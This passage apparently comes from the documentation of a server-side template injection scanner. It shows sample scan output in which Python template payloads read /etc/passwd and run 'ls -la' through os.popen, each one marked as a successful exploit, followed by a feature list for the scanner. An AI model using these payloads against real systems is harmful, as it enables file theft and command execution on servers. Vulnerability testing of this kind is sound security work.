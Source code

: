 ```text
            <button type="submit">Render</button>
        </form>
        <div id="result">Hello, { self.__init__.__globals__.__builtins__.open(&#34;/etc/passwd&#34;).read() }!</div>
    </body>
    </html>
    

[*] Attempting: List current directory (Severity: Medium)
[+] Exploit successful!
Result:

    <html>
    <head>
        <title>Template Injection App</title>
    </head>
    <body>
        <h1>Template Injection App</h1>
        <form method="POST" action="/render">
            <label for="input">Enter your input:</label>
            <input type="text" id="input" name="input">
            <button type="submit">Render</button>
        </form>
        <div id="result">Hello, { self.__init__.__globals__.__builtins__.__import__(&#34;os&#34;).popen(&#34;ls -la&#34;).read() }!</div>
    </body>
    </html>
[... continues for all payloads ...]

[!] APPLICATION IS VULNERABLE TO SERVER-SIDE TEMPLATE INJECTION
[!] Immediate remediation required
```

## Technical Implementation Details

### HTTP Testing

- Uses Python requests library for efficient scanning
- Implements proper session handling
- Configures timeout and error handling
- Manages request rate limiting

### Error Handling

- Comprehensive exception handling for network issues
- Graceful recovery from application errors
- Detailed error logging and reporting
- Automatic retry for transient failures

### Security Testing Best Practices
